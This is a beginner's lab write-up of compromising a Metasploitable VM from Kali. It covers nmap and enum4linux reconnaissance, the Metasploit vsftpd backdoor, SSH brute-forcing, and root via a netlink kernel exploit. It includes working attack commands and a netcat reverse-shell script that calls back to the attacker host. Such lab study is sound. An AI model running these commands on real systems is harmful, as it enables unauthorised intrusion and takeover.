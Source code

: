 I've always had a casual interest in exploring penetration testing. Over the last week I've taken to seeing what I could learn through my own exploration!

A few assumptions are made with this write-up.
1. Kali Linux and Metasploitable are both being run through Oracle VM VirtualBox.
2. Metasploitable's IP is `192.168.56.101` and Kali's IP is `192.168.56.102`
3. An additional network adapter is enabled on Kali to provide updates and downloads
4. This is personal hardware/software and no local laws are being broken.

Obviously, keep metasploitable and kali on a host-only virtual network. Don't let script kiddies have access to an intentionally exploitable machine!!

Enable a second network interface and update Kali. There's nothing wrong with skipping this step if you're staying on a host-only network, but it's good to be up to date. Once it's updated, be sure to switch your network adapter back to host-only mode.

## Let's get started!

Before starting anything, we want to find the IP of the machine we want to pwn. Let's use netdiscover

`netdiscover -r 192.168.56.100`
Now we've got a few IP addresses to scan.
Pinging `192.168.56.100` returns nothing, whereas `192.168.56.101` pings back! That gives us, with just 3 possible addresses to choose from, a good idea of our target's address.

Time to get more information on our target. We can use nmap to scan for TCP ports and the services they use.

`nmap -sV -O 192.168.56.101 -p1-65535`
- -sV to check open ports and version information
- -O to try to guess the operating system

![nmap result](/img/metasploitable/metasploitable1.png)
Lots of open ports! This is obviously on purpose. This gives us great information-- we can see what software and version number applies to each port.

## Enumeration for fun and profit
Kali has a wonderful script called enum4linux. This asks the remote Samba service for a list of users.

`enum4linux -U 192.168.56.101`
- -U displays the users

With some grepping and cutting, we can easily isolate a list of users for use later. `enum4linux -U 192.168.56.101 | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > users.txt` Keep this file around for later!

## There's a few different ways you can get a shell. Here are two:

### vsftpd (port 21)
Boot up the metasploit console (`msfconsole`). With this, we can search for and execute various exploits. Let's look up vsftpd version 2.3.4

`search vsftpd 2.3.4`
![Search vsftpd](/img/metasploitable/metasploitable2.png)
Aha! An excellent backdoor exploit. We're given the namespace to the exploit, which we'll use to execute it.

`use exploit/unix/ftp/vsftpd_234_backdoor` (metasploit supports tab completion!)

Next, we'll set RHOST to our target's IP address. `set rhost 192.168.56.101`

and we'll set our RPORT to 21 to match the port that vsftpd is running on. `set rport 21`

Finally, we execute our attack with a simple `run`.

Press Enter, and you'll have gained access to a remote shell!
![remote shell](/img/metasploitable/metasploitable3.png)

### ssh (port 22)
We can employ a similar method try and gain access to port 22. With metasploit still open, we'll use a common ssh login check scanner (https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/).

`use auxillary/scanner/ssh/ssh_login`

Again, set your rhosts and rport to the corresponding information. (`set rhosts 192.168.56.101` and `set rport 22`)

We'll be using our previous wordlist to attempt to brute force our way in. `set user_file users.txt`.

Additionally, we'll want to `set user_as_pass true`. This might save us some time if our target decided to use the same password as their username.

In order to watch the brute force in action, we'll need to `set verbose true`.

Now a quick `run` should enumerate through the users file, trying each username as its own password.
![trial](/img/metasploitable/metasploitable4.png)
Not bad!

## Now what? Escalation!!

With the newfound limited user accounts that we now have access to, our next step is to elevate our user level. The whole point was to get root access, right?

What can we find by exploring the `user` user? Starting off with `uname -a` will give us details about the system. Through this, we can pick out the kernel version- 2.6.14. Let's dive into some CVEs! Some quick searching will give us [CVE-2009-1185](http://www.exploit-db.com/exploits/8572/). This exploits a Netlink in order to execute a payload from /tmp/run AS ROOT!!. Netlink is a way to pass data back and forth between the kernel and user-space.

We'll need to enable an external internet connection in order to download the exploit. While logged into the `user` account, `wget https://www.exploit-db.com/download/8572.c` (as always, audit all code you download!). Next, we'll need to compile our C code with `gcc -o exploit 8572.c`. This will create an executable named `exploit` that we can pass an argument to.

Once the exploit is compiled, we'll need to find the netlink process ID to pass as the argument to our script. We'll find this with `cat /proc/net/netlink`. Several results will display, but we want the one with an above-zero PID. In my case this is `2329`

Now we'll move on to the command we want to execute as root. With `vim /tmp/run` we can enter a command to execute as root. For this, netcat will execute a shell that we'll catch later. In /tmp/run, we'll enter the following. I'm choosing 1337 as my port because `1337 5P34K` is always cool.

```
#!/bin/bash
/bin/netcat -e /bin/bash 192.168.56.102 1337
```

Now, in another terminal local to our Kali environment, we'll need to catch netcat and listen on port 1337. To do this we use `nc -l -p 1337`.

Returning to our ssh'd Metasploitable terminal, we're finally going to execute our exploit! `./exploit 1337`

It wont look like anything is happening, but if we run `id` through our Kali terminal, we'll see that we're now `uid=0(root) gid=0(root)`! Just to make sure we're not seeing our Kali id, we'll check `uname -a` again.

![payload executed](/img/metasploitable/metasploitable5.png)
I hope you learned as much as I did! Of course, there are plenty of other ways to exploit vulnerable machines, and it's been an incredibly fun journey trying to figure out this much. I'm excited to learn more!
